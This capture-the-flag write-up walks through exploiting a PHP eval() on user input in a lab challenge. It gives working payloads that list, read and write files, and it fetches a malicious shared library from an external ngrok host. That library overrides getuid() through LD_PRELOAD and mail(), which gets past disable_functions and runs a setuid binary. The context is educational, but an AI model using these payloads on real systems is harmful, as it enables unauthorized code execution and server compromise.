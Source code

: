 ```yaml
---
description: PHP eval(), LD_PRELOAD RCE
---
```


# C'mon See My Vulns

## Problem

Government of Rhiza has been creating some tools to make the slave labor more efficient. Laura scanned all IPs addresses from Rhiza's ASN and found one of these tools. Your goal is to get into the server to be able to collect the IP addresses that connects to it. Once collected, we can find out the approximate location of these machines.

{% file src="../../.gitbook/assets/c_mon_see_my_vulns.tar.gz" %}
C'mon See My Vulns
{% endfile %}

## Solution

We are given the following source code:

```php
<?php

function do_calcs($csv){
  preg_match_all("/{{([^}]*)}}/", $csv, $matches);

  foreach ($matches[1] as &$val){
    $csv = str_replace("{{" . $val . "}}", eval("return " . $val . ";"), $csv);
  }

  return $csv;
}

/* main */
if ($_SERVER['REQUEST_METHOD'] == "POST"){
  if (isset($_POST['csv'])){
    // do the math calculations
    $csv = trim(do_calcs($_POST['csv']));
    $csv = str_replace("\r\n", "\n", $csv); // replace CRLF to LF

    $result = csv_parse($csv);
    print_r($result);
  }
  else{
    die("Missing param csv");
  }
}

?>
```

The `eval()` function being used on unsanitised user input. This should already ring some alarm bells.

```php
foreach ($matches[1] as &$val){
    $csv = str_replace("{{" . $val . "}}", eval("return " . $val . ";"), $csv);
  }
```

There is also an `info.php` page. We can take a look at the `disable_functions` configuration to see which functions are disabled. Functions that can execute OS commands, like `exec`, `system`, etc. are not allowed.

![](../../.gitbook/assets/d6f39e6c6fc64cad969ef277fad78ed2.png)

The `open_basedir` setting restricts which files PHP can read/write to. We can see that we are restricted to `/var/www/html`.

![](../../.gitbook/assets/0769c1e345c34812838dcb44e3b9385b.png)

Now that we know which functions are **not** allowed, let's look at what we **are** allowed to do. For the purposes of testing our POST requests, I used an API client called [Postman](https://www.postman.com).

List files:

```
csv:price,tax↵200,{{implode('', scandir('.'))}}
```

Read arbitrary files:

```
csv:price,tax↵200,{{file_get_contents('index.php')}}
```

Write arbitrary files:

```
csv:price,tax↵200,{{file_put_contents('test', 'test')}}
```

Of course, the files we can work with will be restricted by the `open_basedir` setting. Yet, we know that the flag is in `/root`.

However, from the docker file, we know that there is a `readflag` binary. This will allow us to get the flag contents.

```
# Setup readflag binary
COPY ./readflag.c readflag.c
RUN gcc readflag.c -o readflag && chmod 4777 readflag && rm readflag.c
```

We could bypass the restrictions using a custom `.so` file, and changing the `LD_PRELOAD` environment variable. This only requires that we are able to upload arbitrary files, set environment variables, and call the `mail()` function.

Here's a reference: [https://www.programmersought.com/article/20535983859/](https://www.programmersought.com/article/20535983859/)

The basic theory is this:

1\. When we set the `LD_PRELOAD` environment variable to our custom `.so` file, our library takes precedence and gets loaded first, overriding the standard functions. 

2\. `mail()` runs `/usr/sbin/sendmail` through `/bin/sh`. When this happens, functions like `getuid()` are called. 

3\. If we override `getuid()`, we can execute arbitrary code.

Create a `hack.c` file as follows:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


void payload() {
    system("touch /var/www/html/success");
}


uid_t getuid() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

Compile the shared library:

```
gcc -c -fPIC hack.c -o hack
gcc -shared hack -o hack.so
```

Open a Python HTTP server and create a `ngrok` tunnel to transfer the file.

![](../../.gitbook/assets/96b14a281f3b45f989521fc4a3820ff9.png)

Transfer the `hack.so` to a writeable directory with `file_put_contents` and `fopen`:

```
csv:price,tax↵200,{{file_put_contents('/var/www/html/hack.so', fopen('http://631b40831847.ngrok.io/hack.so', 'r'))}}
```

Use the `LD_PRELOAD` environment variable to force the loading of our custom `getuid()` function. Then, call `mail()` - this will run `/usr/sbin/sendmail` through `/bin/sh`, which calls the `getuid()` function. 

Note that all three have to be done in one request - the environment variable will only exist for the duration of the current request.

```
csv:price,tax↵200,{{putenv('LD_PRELOAD=/var/www/html/hack.so') . getenv('LD_PRELOAD') . mail('a','a','a','a')}}
```

From the Docker logs, we could see that `/bin/sh` was indeed executed.

![](../../.gitbook/assets/87d987bae57c4a128130539a4592d99d.png)

Check that it worked:

```
csv:price,tax↵200,{{implode('', scandir('.'))}}
```

We see that the `success` file has been created, so our exploit was successful.

![](../../.gitbook/assets/51fe9e03f4294702829802470545aa02.png)

Now, it's time to modify the payload to achieve our goals. We will call the provided `readflag` binary, and store the results in `output.txt`.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


void payload() {
    system("/opt/readflag > /var/www/html/output.txt");
    return;
}

uid_t getuid() {
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
```

Now, after running the above steps again, we should have the flag in `output.txt`.

```
csv:price,tax↵200,{{file_get_contents('output.txt')}}
```

Using `file_get_contents`, we can get the output.

![](../../.gitbook/assets/1a24c055e2c147b9816aababb1da218c.png)
